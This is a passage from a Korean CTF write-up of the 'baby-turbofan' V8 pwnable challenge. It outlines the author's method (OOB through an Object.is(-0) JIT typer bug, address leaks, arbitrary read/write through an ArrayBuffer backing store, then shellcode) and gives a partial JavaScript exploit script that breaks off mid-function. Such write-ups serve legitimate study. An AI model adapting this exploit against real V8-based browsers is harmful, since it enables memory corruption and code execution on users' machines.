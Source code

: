 ## K. baby-turbofan - Pwnable

처음으로 풀어본 V8 문제이다.

문제의 디스크립션에서 언급되는 `Krautflare`는 약간 예전 PlaidCTF의 `ropasaurusrex` 정도의 감성으로 자주 언급되는 입문용 문제인 것 같아보였다.\
해당 문제에서는 위와 동일한 취약점을 갖고 있었지만, `pointer compression`이 적용된 버전이라는 차이가 존재하였다.

V8에 대한 지식이 전무했으므로 다른 문제의 exploit을 짜집기해서 디버깅하는 방식으로 방향을 정하였고\
지금은 카이스트생인 고등학교 후배의 블로그 글을 많이 참고하여 풀이하였다.\
특히 [35C3-Krautflare](https://sunrinjuntae.tistory.com/171)와 [DownUnder-Is this pwn or web?](https://sunrinjuntae.tistory.com/172)을 주로 참고하였다.

위 글에 적혀있는 자세한 취약점 설명은 생략하고 내가 풀이했던 방법은 아래와 같다.

1. `Object.is(-0, -0) * index`를 이용하여 OOB 발생
2. OOB를 통해 힙 포인터 베이스 LEAK
3. 객체 리스트에 값을 넣고 OOB를 이용해 객체의 주소 LEAK
4. 동적디버깅을 이용하여 알아낸 `ArrayBuffer`의 `backing store`위치를 OOB를 통해 접근하여 aar, aaw
5. 쉘코드 실행

정리하면 제목의 baby가 무색하지 않을 상당히 간단한 문제였지만\
이해하고, 오프셋을 구하기 위해 객체들을 붙이고, 구현하는 데에 참 많은 시간이 들었다.

무언가 하나 크게 얻어간 문제였던 것 같다.

> Exploit Script

```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

const print = console.log

var tmp_obj = {X:1}

function itof(val) {
   u64_buf[0] = Number(BigInt(val) & 0xffffffffn);
   u64_buf[1] = Number(BigInt(val) >> 32n);
   return f64_buf[0];
}
function hex(val){
   return "0x"+val.toString(16)
}

var oob = undefined, oo = undefined, arb = undefined
function foo(x){
   let aux = {mz:-0};
   let idx = Object.is(Math.expm1(x), aux.mz);
   let a = [0.1,0.2,0.3,0.4,0.5];
   let b = new BigUint64Array([
      0x1111111111111111n,
      0x2222222222222222n,
      0x3333333333333333n,
   ]);

   let c = [tmp_obj, 1.1, 1.2]
   let aaaa = new ArrayBuffer(0x1338);


   oob = b
   oo = c
   arb = aaaa

   idx *= 25;
   a[idx] = itof(0xFFFFFFFF000023e8n)
   return a[idx];
```